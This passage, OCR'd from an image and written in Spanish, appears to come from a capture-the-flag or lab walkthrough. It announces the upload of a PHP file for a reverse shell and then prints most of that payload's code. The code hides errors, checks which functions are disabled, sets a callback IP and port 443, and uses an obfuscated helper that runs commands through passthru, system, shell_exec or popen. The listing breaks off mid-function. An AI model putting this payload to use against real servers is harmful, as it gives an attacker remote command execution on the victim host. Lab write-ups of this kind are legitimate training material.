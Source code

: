 Vamos a subir un archivo PHP con el que ejecutaremos una reverse shell. El código para hacer esto es el siguiente:
 
	   /*<?php /**/
	      @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);
	      $dis=@ini_get('disable_functions');
	      if(!empty($dis))
		{
	      $dis=preg_replace('/[, ]+/',',',$dis);
	      $dis=explode(',',$dis);
	      $dis=array_map('trim',$dis);
	     }
		else
		{
	      $dis=array();
	     }
	
	    $ipaddr='172.17.0.1';
	    $port=443;
	
	    if(!function_exists('WrisYTZ'))
		{
	      function WrisYTZ($c)
			{
	           global $dis;
	
	           if (FALSE !== stristr(PHP_OS, 'win' )) 
			  {
	             $c=$c." 2>&1\n";
	           }
	           $gPpr='is_callable';
	           $WEBa='in_array';
	
	            if($gPpr('passthru')&&!$WEBa('passthru',$dis))
			   {
	              ob_start();
	              passthru($c);
		         $o=ob_get_contents();
		         ob_end_clean();
	            }
			   else
	             if($gPpr('system')&&!$WEBa('system',$dis))
	             {
	               ob_start();
			      system($c);
			      $o=ob_get_contents();
			      ob_end_clean();
	             }
	             else
	              if($gPpr('shell_exec')&&!$WEBa('shell_exec',$dis))
	              {
	                $o=`$c`;
	              }
	              else
	               if($gPpr('popen')&&!$WEBa('popen',$dis))
	               {
	                 $fp=popen($c,'r');
	                 $o=NULL;
	                 if(is_resource($fp))
	                 {
	                  while(!feof($fp))
	                  {
	                    $o.=fread($fp,1024);
	                  }
	                 }
	                  @pclose($fp);